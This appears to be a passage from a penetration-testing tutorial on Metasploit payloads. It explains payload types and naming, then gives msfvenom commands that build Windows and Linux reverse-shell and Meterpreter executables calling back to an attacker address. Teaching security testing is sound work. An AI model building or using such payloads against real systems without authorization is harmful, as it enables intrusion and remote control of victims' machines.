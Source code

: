 Payloads represent the code delivered to and executed on target systems. Metasploit offers a sophisticated payload architecture that supports complex post-exploitation capabilities.

### Understanding Payload Types

Metasploit supports different payload types for different scenarios:

**Singles** - Self-contained payloads that perform a specific action and exit.
**Stagers** - Small payloads that establish a channel between attacker and victim.
**Stages** - Larger payloads delivered over the channel established by a stager.

```bash
# List payload types
msf6 > show payload types

# Show singles (non-staged) payloads
msf6 > show payloads singles

# Show staged payloads
msf6 > show payloads staged

# Show meterpreter payloads
msf6 > show payloads windows/meterpreter
```

#### Payload Naming Conventions

Understanding Metasploit's payload naming is essential:

| Pattern | Meaning | Example |
|---------|---------|---------|
| `<platform>/` | Target operating system | `windows/`, `linux/`, `osx/` |
| `<arch>/` | Target architecture | `x86/`, `x64/`, `mipsle/` |
| `<payload_name>` | Payload functionality | `shell`, `exec`, `meterpreter` |
| `/reverse_tcp` | Connection method | `reverse_tcp`, `bind_tcp`, `reverse_https` |

Example: `windows/x64/meterpreter/reverse_tcp`
- Platform: Windows
- Architecture: 64-bit
- Payload: Meterpreter
- Connection method: Reverse TCP

### MSFvenom: Advanced Payload Generation

MSFvenom is a command-line utility that combines the functionality of MSFpayload and MSFencode, allowing for powerful payload generation and encoding.

#### Basic MSFvenom Usage

```bash
# Generate a basic reverse shell payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f exe > shell.exe

# Generate a Meterpreter payload
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.200 LPORT=443 -f exe > meterpreter.exe

# Generate a Linux payload
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f elf > shell.elf

# List available formats
msfvenom --list formats

# List available platforms
msfvenom --list platforms
```